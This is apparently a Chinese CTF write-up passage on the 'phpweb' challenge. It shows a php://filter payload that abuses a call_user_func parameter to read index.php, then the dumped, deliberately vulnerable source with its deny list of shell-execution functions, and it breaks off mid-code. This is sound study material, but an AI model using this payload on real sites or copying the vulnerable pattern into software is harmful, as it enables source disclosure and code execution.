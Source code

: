 ![](https://img-blog.csdnimg.cn/20210220233832573.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
在 Bp中看到 func 和p判断为可以 人为指定 函数名和参数

构造 payload 得到 index.php 页面源码
```
 func=file_get_contents&p=php://filter/read=convert.base64-encode/resource=index.php
```

![](https://img-blog.csdnimg.cn/20210220233903176.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
解码:

```bash
<!DOCTYPE html>
<html>
<head>
    <title>phpweb</title>
    <style type="text/css">
		body {
			background: url("bg.jpg") no-repeat;
			background-size: 100%;
		}
        p {
            color: white;
        }
	</style>
</head>

<body>
    <script language=javascript>
        setTimeout("document.form1.submit()",5000)
    </script>
    <p>
<?php
$disable_fun = array("exec","shell_exec","system","passthru","proc_open","show_source","phpinfo","popen","dl","eval","proc_terminate","touch","escapeshellcmd","escapeshellarg","assert","substr_replace","call_user_func_array","call_user_func","array_filter", "array_walk",  "array_map","registregister_shutdown_function","register_tick_function","filter_var", "filter_var_array", "uasort", "uksort", "array_reduce","array_walk", "array_walk_recursive","pcntl_exec","fopen","fwrite","file_put_contents");
function gettime($func, $p) {
    $result = call_user_func($func, $p);
    $a= gettype($result);
    if ($a == "string") {
        return $result;
    } else {return "";}
}
class Test {
    var $p = "Y-m-d h:i:s a";
    var $func = "date";
    function __destruct() {
        if ($this->func != "") {
            echo gettime($this->func, $this->p);
        }
    }
}
$func = $_REQUEST["func"];
$p = $_REQUEST["p"];

if ($func != null) {
    $func = strtolower($func);
    if (!in_array($func,$disable_fun)) {
        echo gettime($func, $p);
    }else {
        die("Hacker...");
```